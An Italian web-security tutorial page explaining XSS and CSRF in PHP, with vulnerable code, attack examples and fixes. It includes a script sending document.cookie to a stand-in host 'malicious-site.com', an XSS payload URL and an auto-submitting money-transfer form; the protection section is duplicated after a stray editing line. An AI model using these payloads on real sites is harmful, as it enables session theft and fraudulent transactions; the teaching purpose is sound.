 [⬅️ [TORNA ALL'INDICE] ](../README.md)

## Vulnerabilità di Sicurezza

### Cross-Site Scripting (XSS)
XSS è una vulnerabilità che permette di eseguire un attacco iniettando codice JavaScript maligno nel tuo sito web. Questo codice viene eseguito nel browser che visita il sito.

#### Esempio di Vulnerabilità XSS

Ecco un esempio di codice PHP vulnerabile, dove il parametro 'name' viene restituito direttamente senza sanificazione, cioè senza ripulirlo dai tag html che potrebbero consentire l'esecuzione di codice javascript.

Supponiamo di avere una pagina welcome.php scritta in questo modo:
```php
<?php
echo "Benvenuto, " . $_GET['name'];
?>
```
Una pagina di questo tipo risponde ad una richiesta del tipo
`http://tuosito.com/welcome.php?name=Paul`
con una pagina html:
```html
Benvenuto, Paul
```

Ma che succede se inviamo un richiesta di questo tipo?
`http://tuosito.com/welcome.php?name=<script>document.cookie</script>`

La pagina restituita diventa:
```html
Benvenuto, <script>document.cookie</script>
```
generando una pagina dove viene iniettato del codice javascript arbitrario.

In particolare in questo esempio si preleverebbero i cookie dell'utente dal sito attaccato.

Per prevenire un attacco del genere, sul server va utilizzato htmlspecialchars():

```php
<?php
echo "Benvenuto, " . htmlspecialchars($_GET['name']);
?>
```

La funzione `htmlspecialchars()` converte i caratteri speciali HTML in entità HTML. Per esempio:
- `<` diventa `&lt;`
- `>` diventa `&gt;`

Questo impedisce l'esecuzione di codice JavaScript maligno, perché il browser interpreterà i caratteri speciali come testo da visualizzare e non come codice da eseguire. Nell'esempio precedente, l'output sanificato sarebbe:
`Benvenuto, &lt;script&gt;document.cookie&lt;/script&gt;`

#### Come i Cookie sono Vulnerabili a XSS

I cookie sono particolarmente vulnerabili agli attacchi XSS perché JavaScript può accedere ai cookie della pagina corrente attraverso l'oggetto `document.cookie`. Un attaccante potrebbe inserire uno script maligno che ruba i cookie in questo modo:

```javascript
<script>
  // Invia tutti i cookie a un server maligno
  fetch('https://malicious-site.com/steal-cookies?' + document.cookie);
</script>
```
Nell'esempio i cookie della pagina corrente (document.cookie) vengono inviati al sito  malicious-site.com.

Per proteggere i cookie da questo tipo di attacco, è necessario utilizzare le appropriate flag di sicurezza:

```php
setcookie("session_id", "123456", [
    'httponly' => true,    // Previene l'accesso via JavaScript
    'secure' => true,      // Solo HTTPS
    'samesite' => 'Strict' // Previene CSRF
]);
```

Spiegazione delle flag di sicurezza:
- `httponly`: Impedisce a JavaScript di accedere al cookie. Il cookie sarà disponibile solo per il server.
- `secure`: Il cookie viene inviato solo su connessioni HTTPS cifrate.
- `samesite`: Controlla come il cookie viene inviato in richieste cross-site:
  - `Strict`: Il cookie viene inviato solo se si è sullo stesso sito
  - `Lax`: Il cookie viene inviato solo in richieste GET e navigazione top-level
  - `None`: Il cookie viene inviato in tutte le richieste (meno sicuro)


### Cross-Site Request Forgery (CSRF)
CSRF è un attacco che forza un utente autenticato a eseguire azioni indesiderate su un sito web dove è già autenticato. L'attacco sfrutta il fatto che il browser invia automaticamente i cookie (incluso il cookie di sessione) con ogni richiesta al sito.

#### Come Funziona un Attacco CSRF:
1. L'utente fa login su un sito (es. la sua banca)
2. Il browser memorizza il cookie di sessione
3. L'utente, mentre è ancora loggato alla banca, visita un sito maligno
4. Il sito maligno fa partire automaticamente una richiesta alla banca
5. Il browser invia automaticamente il cookie di sessione con la richiesta
6. La banca riconosce il cookie valido ed esegue l'operazione

#### Esempio di Vulnerabilità CSRF

Ecco una pagina vulnerabile di trasferimento denaro sul sito della banca:

```php
<?php
if ($_POST['amount'] && $_POST['to']) {
    transferMoney($_POST['to'], $_POST['amount']);
}
?>
```

Un attaccante potrebbe creare una pagina maligna che sfrutta questa vulnerabilità:

```html
<html>
<body onload="document.forms[0].submit()">
    <form action="http://banca.com/transfer.php" method="POST">
        <input type="hidden" name="amount" value="1000">
        <input type="hidden" name="to" value="attaccante">
    </form>
</body>
</html>
```

Quando la vittima visita questa pagina maligna:
- Il form viene inviato automaticamente
- Il browser include automaticamente i cookie della banca
- La banca vede una richiesta apparentemente legittima
- Il trasferimento viene eseguito senza che l'utente se ne accorga

#### Protezione da CSRF

La protezione CSRF si basa sul principio che il sito maligno non può leggere il contenuto delle risposte dal sito legittimo. Ecco come implementare una protezione:

Per prima cosa, generiamo un token CSRF univoco:

```php
<?php
session_start();
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
```

[Le parti precedenti rimangono invariate fino alla sezione "Protezione da CSRF"]

#### Protezione da CSRF

La protezione CSRF si basa sul principio che il sito maligno non può leggere il contenuto delle risposte dal sito legittimo. Ecco come implementare una protezione:

Per prima cosa, generiamo un token CSRF univoco:

```php
<?php
session_start();
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
```

La generazione del token CSRF usa due funzioni:
1. `random_bytes(32)`: Genera 32 byte di dati casuali criptograficamente sicuri
2. `bin2hex()`: Converte i byte binari in una stringa esadecimale leggibile

Esempio di token generato:
```php
// Esempio di token CSRF finale
"7f13c8e5b2d9a4f6c3d8e1f5a2b7c4d9e6f3a8b5c2d7e4f1a9b6c3d8e5f2a7"
```

Poi, includiamo il token **in ogni form del nostro sito**:

```html
<form method="POST" action="/transfer.php">
    <input type="hidden" name="csrf_token" 
           value="<?php echo $_SESSION['csrf_token']; ?>">
    <input type="text" name="amount">
    <input type="text" name="to">
    <button type="submit">Trasferisci</button>
</form>
```

Infine, verifichiamo il token in ogni richiesta POST:

```php
if ( $_SESSION['csrf_token'] != $_POST['csrf_token'] ) {
    die('CSRF token non valido');
}
```

Questo funziona perché:
1. Il token è univoco per ogni sessione
2. Il sito maligno non può conoscere il token
3. Senza il token corretto, la richiesta viene rifiutata


[⬅️ [TORNA ALL'INDICE] ](../README.md)